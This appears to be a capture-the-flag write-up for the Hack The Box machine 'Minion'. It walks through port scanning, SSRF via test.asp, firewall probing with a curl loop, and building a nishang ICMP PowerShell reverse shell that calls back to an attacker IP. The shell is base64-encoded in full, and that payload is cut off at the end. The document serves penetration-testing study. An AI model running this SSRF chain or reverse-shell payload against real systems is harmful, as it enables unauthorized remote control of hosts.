


#### Minion

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [SSRF](#ssrf)
- [Firewall Enumeration](#firewall-enumeration)
- [ICMP Reverse Shell](#icmp-reverse-shell)
- [PrivEsc form IIS to Decoder](#privesc-form-iis-to-decoder)
- [NTFS File Stream](#ntfs-file-stream)
- [net use to mount C: as Administrator](#)
- [Analyze root.exe](#)
- [Invoke-Command to execute root.exe as admin](#)
- [Create a firewall rule for RDP](#create-a-firewall-rule-for-rdp)

###### Attacker Info

```sh
root@kali:~/minion# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 192.168.150.11/24 brd 192.168.150.255 scope global dynamic noprefixroute eth0
       valid_lft 85274sec preferred_lft 85274sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.16/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::100e/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::a0c0:49ce:3316:68cb/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/minion#
```

###### Nmap Scan

```sh
root@kali:~/minion# nmap -sC -sV -n -p 62696 10.10.10.57
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 13:41 EDT
Nmap scan report for 10.10.10.57
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
62696/tcp open  http    Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 1 disallowed entry
|_/backend
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.60 seconds
root@kali:~/minion#
```


`IIS 8.5` &rarr; `Windows Server 2012 R2`

###### Web Enumeration

```
http://10.10.10.57:62696/
view-source:http://10.10.10.57:62696/
http://10.10.10.57:62696/backend
https://decoder.cloud/
```


```sh
root@kali:~/minion# echo -n "TmVsIG1lenpvIGRlbCBjYW1taW4gZGkgbm9zdHJhIHZpdGENCm1pIHJpdHJvdmFpIHBlciB1bmEgc2VsdmEgb3NjdXJhLA0KY2jDqSBsYSBkaXJpdHRhIHZpYSBlcmEgc21hcnJpdGEu" | base64 -d
Nel mezzo del cammin di nostra vita
mi ritrovai per una selva oscura,
ché la diritta via era smarrita.
root@kali:~/minion#
```


```sh
root@kali:~/minion# file minion.jpg
minion.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1280x720, frames 3
root@kali:~/minion#
```

```sh
root@kali:~/minion# binwalk minion.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01

root@kali:~/minion#
```

```sh
root@kali:~/minion# strings minion.jpg | less
```

```sh
root@kali:~/minion# exiftool minion.jpg
ExifTool Version Number         : 11.01
File Name                       : minion.jpg
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2018:06:18 13:53:45-04:00
File Access Date/Time           : 2018:06:18 13:54:00-04:00
File Inode Change Date/Time     : 2018:06:18 13:53:45-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 1280
Image Height                    : 720
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1280x720
Megapixels                      : 0.922
root@kali:~/minion#
```

```sh
root@kali:~/minion# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp -u http://10.10.10.57:62696

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.57:62696/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .asp
=====================================================
/test.asp (Status: 200)
/backend (Status: 301)
/Test.asp (Status: 200)
```

###### SSRF

```
http://10.10.10.57:62696/test.asp
http://10.10.10.57:62696/test.asp?u=http://10.10.10.57:62696
```


```
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1
http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx
```





###### Firewall Enumeration 

`testconnection.sh`

```sh
for i in $(seq 1 65535)
do
	curl http://10.10.10.57:62696/test.asp?u=http://10.10.14.16:$i
done
```

```sh
root@kali:~/minion# tcpdump -i tun0 'src host 10.10.10.57 and tcp[tcpflags] == tcp-syn'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

```sh
root@kali:~/minion# bash testconnection.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1208  100  1208    0     0   3204      0 --:--:-- --:--:-- --:--:--  3204
1
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1208  100  1208    0     0   3532      0 --:--:-- --:--:-- --:--:--  3521
2
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1208  100  1208    0     0   2023      0 --:--:-- --:--:-- --:--:--  2023
3
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1208  100  1208    0     0   2603      0 --:--:-- --:--:-- --:--:--  2597
```


```sh
root@kali:~/minion# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:42:05.659800 IP 10.10.10.57 > kali: ICMP echo request, id 1, seq 1, length 40
14:42:05.659843 IP kali > 10.10.10.57: ICMP echo reply, id 1, seq 1, length 40
14:42:06.478066 IP 10.10.10.57 > kali: ICMP echo request, id 1, seq 2, length 40
14:42:06.478184 IP kali > 10.10.10.57: ICMP echo reply, id 1, seq 2, length 40
14:42:07.503088 IP 10.10.10.57 > kali: ICMP echo request, id 1, seq 3, length 40
14:42:07.503117 IP kali > 10.10.10.57: ICMP echo reply, id 1, seq 3, length 40
^C
6 packets captured
6 packets received by filter
0 packets dropped by kernel
root@kali:~/minion#
```

###### ICMP Reverse Shell

[`Invoke-PowerShellIcmp.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1)



```sh
root@kali:~/minion# wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1
--2018-06-18 14:44:20--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4125 (4.0K) [text/plain]
Saving to: ‘Invoke-PowerShellIcmp.ps1’

Invoke-PowerShellIcmp.ps1 100%[==================================>]   4.03K  --.-KB/s    in 0s

2018-06-18 14:44:20 (21.6 MB/s) - ‘Invoke-PowerShellIcmp.ps1’ saved [4125/4125]

root@kali:~/minion#
```

```sh
root@kali:~/minion# locate icmpsh_m.py
/usr/share/golismero/tools/sqlmap/extra/icmpsh/icmpsh_m.py
/usr/share/sqlmap/extra/icmpsh/icmpsh_m.py
/usr/share/sqlmap/extra/icmpsh/icmpsh_m.pyc
root@kali:~/minion#
```

```sh
root@kali:~/minion# cp /usr/share/golismero/tools/sqlmap/extra/icmpsh/icmpsh_m.py .
```

```sh
root@kali:~/minion# tail Invoke-PowerShellIcmp.ps1
            $ICMPClient.Send($IPAddress,60 * 1000, $sendbytes, $PingOptions) | Out-Null
        }
        else
        {
            Start-Sleep -Seconds $Delay
        }
    }
}

Invoke-PowerShellIcmp -IPAddress 10.10.14.16
root@kali:~/minion#
```

```sh
root@kali:~/minion# grep sysctl Invoke-PowerShellIcmp.ps1
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
root@kali:~/minion#
```

```sh
root@kali:~/minion# sysctl -w net.ipv4.icmp_echo_ignore_all=1
net.ipv4.icmp_echo_ignore_all = 1
root@kali:~/minion#
```

[`Installing PowerShell on Kali Linux`](https://www.kali.org/tutorials/installing-powershell-on-kali-linux/)

```sh
apt update && apt -y install curl gnupg apt-transport-https
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
apt install libcurl3
apt -y install powershell
```

```sh
root@kali:~/minion# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS /root/minion> $RevShell = Get-Content -Raw ./Invoke-PowerShellIcmp.ps1
PS /root/minion> $bytes = [System.Text.Encoding]::Unicode.GetBytes($RevShell)
PS /root/minion> $Encoded = [Convert]::ToBase64String($bytes)
PS /root/minion> $Encoded
ZgB1AG4AYwB0AGkAbwBuACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAEkAYwBtAHAACgB7ACAACgA8ACMACgAuAFMAWQBOAE8AUABTAEkAUwAKAE4AaQBzAGgAYQBuAGcAIABzAGMAcgBpAHAAdAAgAHcAaABpAGMAaAAgAGMAYQBuACAAYgBlACAAdQBzAGUAZAAgAGYAbwByACAAYQAgAFIAZQB2AGUAcgBzAGUAIABpAG4AdABlAHIAYQBjAHQAaQB2AGUAIABQAG8AdwBlAHIAUwBoAGUAbABsACAAZgByAG8AbQAgAGEAIAB0AGEAcgBnAGUAdAAgAG8AdgBlAHIAIABJAEMATQBQAC4AIAAKAAoALgBEAEUAUwBDAFIASQBQAFQASQBPAE4ACgBUAGgAaQBzACAAcwBjAHIAaQBwAHQAIABjAGEAbgAgAHIAZQBjAGUAaQB2AGUAIABjAG8AbQBtAGEAbgBkAHMAIABmAHIAbwBtACAAYQAgAHMAZQByAHYAZQByACwAIABlAHgAZQBjAHUAdABlACAAdABoAGUAbQAgAGEAbgBkACAAcgBlAHQAdQByAG4AIAB0AGgAZQAgAHIAZQBzAHUAbAB0ACAAdABvACAAdABoAGUAIABzAGUAcgB2AGUAcgAgAHUAcwBpAG4AZwAgAG8AbgBsAHkAIABJAEMATQBQAC4ACgAKAFQAaABlACAAcwBlAHIAdgBlAHIAIAB0AG8AIABiAGUAIAB1AHMAZQBkACAAdwBpAHQAaAAgAGkAdAAgAGkAcwAgAGkAYwBtAHAAcwBoAF8AbQAuAHAAeQAgAGYAcgBvAG0AIAB0AGgAZQAgAGkAYwBtAHAAcwBoACAAdABvAG8AbABzACAAKABoAHQAdABwAHMAOgAvAC8AZwBpAHQAaAB1AGIALgBjAG8AbQAvAGkAbgBxAHUAaQBzAGIALwBpAGMAbQBwAHMAaAApAC4ACgAKAC4AUABBAFIAQQBNAEUAVABFAFIAIABJAFAAQQBkAGQAcgBlAHMAcwAKAFQAaABlACAASQBQACAAYQBkAGQAcgBlAHMAcwAgAG8AZgAgAHQAaABlACAAcwBlAHIAdgBlAHIALwBsAGkAcwB0AGUAbgBlAHIAIAB0AG8AIABjAG8AbgBuAGUAYwB0ACAAdABvAC4ACgAKAC4AUABBAFIAQQBNAEUAVABFAFIAIABEAGUAbABhAHkACgBUAGkAbQBlACAAaQBuACAAcwBlAGMAbwBuAGQAcwAgAGYAbwByACAAdwBoAGkAYwBoACAAdABoAGUAIABzAGMAcgBpAHAAdAAgAHcAYQBpAHQAcwAgAGYAbwByACAAYQAgAGMAbwBtAG0AYQBuAGQAIABmAHIAbwBtACAAdABoAGUAIABzAGUAcgB2AGUAcgAuACAARABlAGYAYQB1AGwAdAAgAGkAcwAgADUAIABzAGUAYwBvAG4AZABzAC4AIAAKAAoALgBQAEEAUgBBAE0ARQBUAEUAUgAgAEIAdQBmAGYAZQByAFMAaQB6AGUACgBUAGgAZQAgAHMAaQB6AGUAIABvAGYAIABvAHUAdABwAHUAdAAgAEIAdQBmAGYAZQByAC4AIABEAGUAZgB1AGEAbAB0ACAAaQBzACAAMQAyADgALgAKAAoALgBFAFgAQQBNAFAATABFAAoAIwAgAHMAeQBzAGMAdABsACAALQB3ACAAbgBlAHQALgBpAHAAdgA0AC4AaQBjAG0AcABfAGUAYwBoAG8AXwBpAGcAbgBvAHIAZQBfAGEAbABsAD0AMQAKACMAIABwAHkAdABoAG8AbgAgAGkAYwBtAHAAcwBoAF8AbQAuAHAAeQAgADEAOQAyAC4AMQA2ADgALgAyADUANAAuADIAMgA2ACAAMQA5ADIALgAxADYAOAAuADIANQA0AC4AMQAKAAoAUgB1AG4AIABhAGIAbwB2AGUAIABjAG8AbQBtAGEAbgBkAHMAIAB0AG8AIABzAHQAYQByAHQAIABhACAAbABpAHMAdABlAG4AZQByACAAbwBuACAAYQAgAEwAaQBuAHUAeAAgAGMAbwBtAHAAdQB0AGUAcgAgACgAdABlAHMAdABlAGQAIABvAG4AIABLAGEAbABpACAATABpAG4AdQB4ACkALgAKAGkAYwBtAHAAcwBoAF8AbQAuAHAAeQAgAGkAcwAgAGEAIABwAGEAcgB0ACAAbwBmACAAdABoAGUAIABpAGMAbQBwAHMAaAAgAHQAbwBvAGwAcwAuAAoACgBPAG4AIAB0AGgAZQAgAHQAYQByAGcAZQB0ACwAIAByAHUAbgAgAHQAaABlACAAYgBlAGwAbwB3ACAAYwBvAG0AbQBhAG4AZAAuAAoACgBQAFMAIAA+ACAASQBuAHYAbwBrAGUALQBQAG8AdwBlAHIAUwBoAGUAbABsAEkAYwBtAHAAIAAtAEkAUABBAGQAZAByAGUAcwBzACAAMQA5ADIALgAxADYAOAAuADIANQA0AC4AMgAyADYACgAKAEEAYgBvAHYAZQAgAHMAaABvAHcAcwAgAGEAbgAgAGUAeABhAG0AcABsAGUAIABvAGYAIABhAG4AIABpAG4AdABlAHIAYQBjAHQAaQB2AGUAIABQAG8AdwBlAHIAUwBoAGUAbABsACAAcgBlAHYAZQByAHMAZQAgAGMAbwBuAG4AZQBjAHQAIABzAGgAZQBsAGwALgAgAAoACgAuAEwASQBOAEsACgBoAHQAdABwADoALwAvAHcAdwB3AC4AbABhAGIAbwBmAGEAcABlAG4AZQB0AHIAYQB0AGkAbwBuAHQAZQBzAHQAZQByAC4AYwBvAG0ALwAyADAAMQA1AC8AMAA1AC8AdwBlAGUAawAtAG8AZgAtAHAAbwB3AGUAcgBzAGgAZQBsAGwALQBzAGgAZQBsAGwAcwAtAGQAYQB5AC0ANQAuAGgAdABtAGwACgBoAHQAdABwAHMAOgAvAC8AZwBpAHQAaAB1AGIALgBjAG8AbQAvAHMAYQBtAHIAYQB0AGEAcwBoAG8AawAvAG4AaQBzAGgAYQBuAGcACgAjAD4AIAAgACAAIAAgACAAIAAgACAAIAAgAAoAIAAgACAAIABbAEMAbQBkAGwAZQB0AEIAaQBuAGQAaQBuAGcAKAApAF0AIABQAGEAcgBhAG0AKAAKAAoAIAAgACAAIAAgACAAIAAgAFsAUABhAHIAYQBtAGUAdABlAHIAKABQAG8AcwBpAHQAaQBvAG4AIAA9ACAAMAAsACAATQBhAG4AZABhAHQAbwByAHkAIAA9ACAAJAB0AHIAdQBlACkAXQAKACAAIAAgACAAIAAgACAAIABbAFMAdAByAGkAbgBnAF0ACgAgACAAIAAgACAAIAAgACAAJABJAFAAQQBkAGQAcgBlAHMAcwAsAAoACgAgACAAIAAgACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAFAAbwBzAGkAdABpAG8AbgAgAD0AIAAxACwAIABNAGEAbgBkAGEAdABvAHIAeQAgAD0AIAAkAGYAYQBsAHMAZQApAF0ACgAgACAAIAAgACAAIAAgACAAWwBJAG4AdABdAAoAIAAgACAAIAAgACAAIAAgACQARABlAGwAYQB5ACAAPQAgADUALAAKAAoAIAAgACAAIAAgACAAIAAgAFsAUABhAHIAYQBtAGUAdABlAHIAKABQAG8AcwBpAHQAaQBvAG4AIAA9ACAAMgAsACAATQBhAG4AZABhAHQAbwByAHkAIAA9ACAAJABmAGEAbABzAGUAKQBdAAoAIAAgACAAIAAgACAAIAAgAFsASQBuAHQAXQAKACAAIAAgACAAIAAgACAAIAAkAEIAdQBmAGYAZQByAFMAaQB6AGUAIAA9ACAAMQAyADgACgAKACAAIAAgACAAKQAKAAoAIAAgACAAIAAjAEIAYQBzAGkAYwAgAHMAdAByAHUAYwB0AHUAcgBlACAAZgByAG8AbQAgAGgAdAB0AHAAOgAvAC8AcwB0AGEAYwBrAG8AdgBlAHIAZgBsAG8AdwAuAGMAbwBtAC8AcQB1AGUAcwB0AGkAbwBuAHMALwAyADAAMAAxADkAMAA1ADMALwBzAGUAbgBkAGkAbgBnAC0AYgBhAGMAawAtAGMAdQBzAHQAbwBtAC0AaQBjAG0AcAAtAGUAYwBoAG8ALQByAGUAcwBwAG8AbgBzAGUACgAgACAAIAAgACQASQBDAE0AUABDAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAE4AZQB0AHcAbwByAGsASQBuAGYAbwByAG0AYQB0AGkAbwBuAC4AUABpAG4AZwAKACAAIAAgACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBOAGUAdAB3AG8AcgBrAEkAbgBmAG8AcgBtAGEAdABpAG8AbgAuAFAAaQBuAGcATwBwAHQAaQBvAG4AcwAKACAAIAAgACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMALgBEAG8AbgB0AEYAcgBhAGcAbQBlAG4AdAAgAD0AIAAkAFQAcgB1AGUACgAKACAAIAAgACAAIwAgAFMAaABlAGwAbAAgAGEAcABwAGUAYQByAGEAbgBjAGUAIABhAG4AZAAgAG8AdQB0AHAAdQB0ACAAcgBlAGQAaQByAGUAYwB0AGkAbwBuACAAYgBhAHMAZQBkACAAbwBuACAAUABvAHcAZQByAGYAdQBuACAALQAgAFcAcgBpAHQAdABlAG4AIABiAHkAIABCAGUAbgAgAFQAdQByAG4AZQByACAAJgAgAEQAYQB2AGUAIABIAGEAcgBkAHkACgAgACAAIAAgACQAcwBlAG4AZABiAHkAdABlAHMAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAiAFcAaQBuAGQAbwB3AHMAIABQAG8AdwBlAHIAUwBoAGUAbABsACAAcgB1AG4AbgBpAG4AZwAgAGEAcwAgAHUAcwBlAHIAIAAiACAAKwAgACQAZQBuAHYAOgB1AHMAZQByAG4AYQBtAGUAIAArACAAIgAgAG8AbgAgACIAIAArACAAJABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlACAAKwAgACIAYABuAEMAbwBwAHkAcgBpAGcAaAB0ACAAKABDACkAIAAyADAAMQA1ACAATQBpAGMAcgBvAHMAbwBmAHQAIABDAG8AcgBwAG8AcgBhAHQAaQBvAG4ALgAgAEEAbABsACAAcgBpAGcAaAB0AHMAIAByAGUAcwBlAHIAdgBlAGQALgBgAG4AYABuACIAKQAKACAAIAAgACAAJABJAEMATQBQAEMAbABpAGUAbgB0AC4AUwBlAG4AZAAoACQASQBQAEEAZABkAHIAZQBzAHMALAA2ADAAIAAqACAAMQAwADAAMAAsACAAJABzAGUAbgBkAGIAeQB0AGUAcwAsACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMAKQAgAHwAIABPAHUAdAAtAE4AdQBsAGwACgAKACAAIAAgACAAIwBTAGgAbwB3ACAAYQBuACAAaQBuAHQAZQByAGEAYwB0AGkAdgBlACAAUABvAHcAZQByAFMAaABlAGwAbAAgAHAAcgBvAG0AcAB0AAoAIAAgACAAIAAkAHMAZQBuAGQAYgB5AHQAZQBzACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJwBQAFMAIAAnACAAKwAgACgARwBlAHQALQBMAG8AYwBhAHQAaQBvAG4AKQAuAFAAYQB0AGgAIAArACAAJwA+ACAAJwApAAoAIAAgACAAIAAkAEkAQwBNAFAAQwBsAGkAZQBuAHQALgBTAGUAbgBkACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsADYAMAAgACoAIAAxADAAMAAwACwAIAAkAHMAZQBuAGQAYgB5AHQAZQBzACwAIAAkAFAAaQBuAGcATwBwAHQAaQBvAG4AcwApACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIAAgACAAIAB3AGgAaQBsAGUAIAAoACQAdAByAHUAZQApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACQAcwBlAG4AZABiAHkAdABlAHMAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAnACcAKQAKACAAIAAgACAAIAAgACAAIAAkAHIAZQBwAGwAeQAgAD0AIAAkAEkAQwBNAFAAQwBsAGkAZQBuAHQALgBTAGUAbgBkACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsADYAMAAgACoAIAAxADAAMAAwACwAIAAkAHMAZQBuAGQAYgB5AHQAZQBzACwAIAAkAFAAaQBuAGcATwBwAHQAaQBvAG4AcwApAAoAIAAgACAAIAAgACAAIAAgAAoAIAAgACAAIAAgACAAIAAgACMAQwBoAGUAYwBrACAAZgBvAHIAIABDAG8AbQBtAGEAbgBkACAAZgByAG8AbQAgAHQAaABlACAAcwBlAHIAdgBlAHIACgAgACAAIAAgACAAIAAgACAAaQBmACAAKAAkAHIAZQBwAGwAeQAuAEIAdQBmAGYAZQByACkACgAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAcgBlAHMAcABvAG4AcwBlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAHIAZQBwAGwAeQAuAEIAdQBmAGYAZQByACkACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHIAZQBzAHUAbAB0ACAAPQAgACgASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAALQBDAG8AbQBtAGEAbgBkACAAJAByAGUAcwBwAG8AbgBzAGUAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJABzAGUAbgBkAGIAeQB0AGUAcwAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcgBlAHMAdQBsAHQAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAaQBuAGQAZQB4ACAAPQAgAFsAbQBhAHQAaABdADoAOgBmAGwAbwBvAHIAKAAkAHMAZQBuAGQAYgB5AHQAZQBzAC4AbABlAG4AZwB0AGgALwAkAEIAdQBmAGYAZQByAFMAaQB6AGUAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAaQAgAD0AIAAwAAoACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAjAEYAcgBhAGcAbQBhAG4AdAAgAGwAYQByAGcAZQByACAAbwB1AHQAcAB1AHQAIABpAG4AdABvACAAcwBtAGEAbABsAGUAcgAgAG8AbgBlAHMAIAB0AG8AIABzAGUAbgBkACAAdABvACAAdABoAGUAIABzAGUAcgB2AGUAcgAuAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAaQBmACAAKAAkAHMAZQBuAGQAYgB5AHQAZQBzAC4AbABlAG4AZwB0AGgAIAAtAGcAdAAgACQAQgB1AGYAZgBlAHIAUwBpAHoAZQApAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAdwBoAGkAbABlACAAKAAkAGkAIAAtAGwAdAAgACQAaQBuAGQAZQB4ACAAKQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHMAZQBuAGQAYgB5AHQAZQBzADIAIAA9ACAAJABzAGUAbgBkAGIAeQB0AGUAcwBbACgAJABpACoAJABCAHUAZgBmAGUAcgBTAGkAegBlACkALgAuACgAKAAkAGkAKwAxACkAKgAkAEIAdQBmAGYAZQByAFMAaQB6AGUALQAxACkAXQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAEkAQwBNAFAAQwBsAGkAZQBuAHQALgBTAGUAbgBkACgAJABJAFAAQQBkAGQAcgBlAHMAcwAsADYAMAAgACoAIAAxADAAMAAwADAALAAgACQAcwBlAG4AZABiAHkAdABlAHMAMgAsACAAJABQAGkAbgBnAE8AcAB0AGkAbwBuAHMAKQAgAHwAIABPAHU